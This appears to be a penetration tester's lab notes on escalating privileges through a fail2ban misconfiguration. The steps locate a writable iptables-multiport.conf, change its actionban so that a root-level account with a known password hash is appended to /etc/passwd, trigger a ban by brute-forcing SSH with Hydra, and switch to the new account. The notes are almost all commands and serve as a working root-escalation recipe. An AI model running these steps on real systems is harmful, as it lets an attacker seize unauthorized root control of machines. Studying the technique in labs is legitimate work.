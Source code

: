 Running `id` shows we are part of fail2ban group

![[Pasted image 20221110103107.png]]

Find the iptables-multiport.conf file:
```bash - target
find / -type f -iname iptables-multiport.conf 2> /dev/null
```

Verify that we have read / write privs:
```bash - kali
ls -lah /etc/fail2ban/action.d/iptables-multiport.conf
```

```bash - target
nano /etc/fail2ban/action.d/iptables-multiport.conf
```

[[17._passwd file]]

```bash - target
actionban = echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

![[Pasted image 20220403120429.png]]

Now force the bad by flooding ssh requests:
![[Hydra#Hydra against SSH]]

```bash - target
su newroot
```

```bash - target
password
```

